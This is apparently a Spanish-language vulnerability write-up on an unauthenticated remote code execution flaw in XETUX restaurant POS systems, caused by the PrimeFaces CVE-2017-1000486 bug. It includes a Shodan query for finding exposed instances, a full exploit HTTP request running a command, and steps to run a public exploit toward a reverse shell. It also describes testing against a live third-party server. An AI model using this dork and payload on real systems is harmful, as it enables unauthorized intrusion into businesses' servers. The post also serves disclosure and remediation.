 # De la Mesa al Código: Un Viaje a Través de la Vulnerabilidad RCE en POS para Restaurantes

En esta oportunidad nos encontramos por casualidad con una vulnerabilidad presente en varias aplicaciones de POS para restaurantes [XETUX](https://www.xetux.com/pa/), la cual es una solución para monitoreo  y automatización de restaurantes.  En panamá es una herramienta ampliamente utilizada por varios restaurantes.

La vulnerabilidad presente es una RCE (remote code execution), que permite atacantes ejecutar códigos de manera no autenticada y ganar privilegios en el objetivo.

![2](img/2.png)

##### 1. Enumeración 

Una vez descubrimos que la existencia de una librería presente en la aplicación de Xetux, la librería en cuestión es llamada primefaces, encargada de generar pdf, decidimos realizar una búsqueda en shodan para identificar posibles objetivos

```
http.title:"@XETUX" country:PA
```

La búsqueda arrojo 40 resultados y 334 en el mundo

![1](img/1.png)

Procedemos a comprobar la vulnerabilidad en uno de los objetivos que no se encontraban en Panamá, al analizar los resultados el backend 

![3](img/3.png)

Podemos observar que la aplicación ha sido instalada con todos los privilegios **nt authoriy\system**, vamos a explicar lo que sucede a continuación:

La aplicación esta usando un apache tomcat como server, para el backend se utiliza java, en la aplicación usan una librería o un plugin de terceros llamados Primefaces, la ruta con el problema es el endpoint **javax.faces.resource/dynamiccontent.properties.xhtml**

Al buscar sobre dicha librería encontramos una [vulnerabilidad](https://www.illucit.com/en/java-ee/primefaces-expression-language-remote-code-execution-fix), Primefaces carga contenido dinámico de la siguiente manera

```html
/javax.faces.resource/dynamiccontent.properties.jsf?ln=primefaces&pfdrid=dY1NMdRjZ4sqkGAPrRzKkmxm5b1DSrlJ7VXTVU2i7gmrhtVAkmH7aR8cUk7h%2BTgl&forcereload=1523006610695&pfdrid_c=true
```

El problema se encuentra en el parámetro **pdfid**

`pfdrid=dY1NMdRjZ4sqkGAPrRzKkmxm5b1DSrlJ7VXTVU2i7gmrhtVAkmH7aR8cUk7h%2BTgl`

El valor del parametro va cifrado y no hay manera de validar si la petición será descifrada correctamente, desafortunadamente sino modifican los valores de la llave por defecto se pueden solicitar la generación de una default key, por lo que afortunadamente para nosotros todas las pruebas realizadas mantenían la lleve por defecto.

De igual manera se podría realizar un ataque Padding Oracle Attack y obtener las llave con la Herramienta Padbuster. A continuación compartimos la solicitud 

```html
POST /xc-one-pos/javax.faces.resource/dynamiccontent.properties.xhtml HTTP/1.1
Host: ip:9090
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 1643

pfdrt=sc&ln=primefaces&pfdrid=4xE5s8AClZxUxmyaZjpBstMXUalIgOJHOtvxel%2Fv4YXvibdOn52ow4M6lDaKd9Gb8JdQqbACZNWVZpVS%2B3sX1Hoizouty1mYYT4yJsKPnUZ0LUHDvN0GB5YLgX1PkNY%2B1ZQ%2FnOSg5J1LDyzAjBheAxLDODIVcHkmJ6hnJsQ0YQ8bMU5%2B%2BTqeD4BGqCZMDjP%2BZQvveiUhxsUC%2F%2BtPqnOgFSBV8TBjDSPNmVoQ9YcKTGelKuJjS2kCXHjcyz7PcQksSW6UUmKu9RhJ%2Bx3Mnx6j56eroVPWnM2vdYRt5An6cLo1YPXu9uqriyg1wgm%2F7xYP%2FUwP1q8wfVeyM4fOw2xJzP6i1q4VLHLXi0VYHAIgaPrZ8gH8XH4X2Kq6ewyrJ62QxBF5dtE3tvLAL5tpGxqek5VW%2BhZFe9ePu0n5tLxWmqgqni8bKGbGrGu4IhXhCJhBxyelLQzPGLCfqmiQwYX5Ime9EHj1k5eoWQzH8jb3kQfFJ0exVprGCfXKGfHyfKfLEOd86anNsiQeNavNL7cDKV0yMbz52n6WLQrCAyzulE8kBCZPNGIUJh24npbeaHTaCjHRDtI7aIPHAIhuMWn7Ef5TU9DcXjdJvZqrItJoCDrtxMFfDhb0hpNQ2ise%2BbYIYzUDkUtdRV%2BjCGNI9kbPG5QPhAqp%2FJBhQ%2BXsqIhsu4LfkGbt51STsbVQZvoNaNyukOBL5IDTfNY6wS5bPSOKGuFjsQq0Xoadx1t3fc1YA9pm%2FEWgyR5DdKtmmxG93QqNhZf2RlPRJ5Z3jQAtdxw%2BxBgj6mLY2bEJUZn4R75UWnvLO6JM918jHdfPZELAxOCrzk5MNuoNxsWreDM7e2GX2iTUpfzNILoGaBY5wDnRw46ATxhx6Q%2FEba5MU7vNX1VtGFfHd2cDM5cpSGOlmOMl8qzxYk1R%2BA2eBUMEl8tFa55uwr19mW9VvWatD8orEb1RmByeIFyUeq6xLszczsB5Sy85Y1KPNvjmbTKu0LryGUc3U8VQ7AudToBsIo9ofMUJAwELNASNfLV0fZvUWi0GjoonpBq5jqSrRHuERB1%2BDW2kR6XmnuDdZMt9xdd1BGi1AM3As0KwSetNq6Ezm2fnjpW877buqsB%2BczxMtn6Yt6l88NRYaMHrwuY7s4IMNEBEazc0IBUNF30PH%2B3eIqRZdkimo980HBzVW4SXHnCMST65%2FTaIcy6%2FOXQqNjpMh7DDEQIvDjnMYMyBILCOCSDS4T3JQzgc%2BVhgT97imje%2FKWibF70yMQesNzOCEkaZbKoHz498sqKIDRIHiVEhTZlwdP29sUwt1uqNEV%2F35yQ%2BO8DLt0b%2BjqBECHJzI1IhGvSUWJW37TAgUEnJWpjI9R1hT88614GsVDG0UYv0u8YyS0chh0RryV3BXotoSkSkVGShIT4h0s51Qjswp0luewLtNuVyC5FvHvWiHLzbAArNnmM7k%2FGdCn3jLe9PeJp7yqDzzBBMN9kymtJdlm7c5XnlOv%2BP7wIJbP0i4%2BQF%2BPXw5ePKwSwQ9v8rTQ%3D%3D&cmd=whoami
```

##### 2. Reverseshell

Como mencionamos anteriormente la librería que contiene el RCE es Primefaces la cual tiene un exploit público [CVE-2017-1000486](https://github.com/pimps/CVE-2017-1000486)

Probaremos la vulnerabilidad bajando el exploit 

```shell
git clone https://github.com/pimps/CVE-2017-1000486.git
cd CVE-2017-1000486
pip3 install -r requirements.txt
```

Ejecutamos el exploit

![4](img/4.png)

El mismo nos va arrojar una llave y la petición 

![5](img/5.png)

Nos devolverá el resultado del comando 

![6](img/6.png)

Ahora vamos a proceder a obtener la shell reversa,  para obtener el acceso al server:

![7](img/7.png)

##### 3. Consideraciones Finales

- Es importante destacar que la falla no solamente aplica al software Xetux, la misma esta en la librería Primefaces se encuentra en otras aplicaciones como **MaxView Storage Manager** y **DOCBOX**. 

- Los fix para la vulnerabilidad se encuentran hace años puesta el mismo es del 2017, se recomienda actualizar el primefaces.

- El acceso al endpoint es sin autenticación por lo que cualquiera puede realizar peticiones, por lo que se debe validar si las peticiones son válidas.

- Si utiliza alguna de las aplicaciones mencionados compartimos el repositorio de nuclei con el que pueden comprobar si son vulnerables https://gitlab.com/t0adsec/nuclei-templates

- Responsablemente hemos informado a los proveedores de la app en sus respectivos países, no obstante a la fecha no hemos recibido contacto de parte de ellos.

  

##### 4. Referencias

- *XETUX 软件 dynamiccontent.properties.xhtml 远程代码执行漏洞-CSDN博客*. (s. f.). https://blog.csdn.net/holyxp/article/details/134402720
- Gobysec. (s. f.). *GobyVuls/GobyVuls-Document.md at master · gobysec/GobyVuls*. GitHub. https://github.com/gobysec/GobyVuls/blob/master/GobyVuls-Document.md
- Lindner, S. (2018, 26 abril). *PrimeFaces Expression Language Remote Code Execution fix*. illucIT Software GmbH. https://www.illucit.com/en/java-ee/primefaces-expression-language-remote-code-execution-fix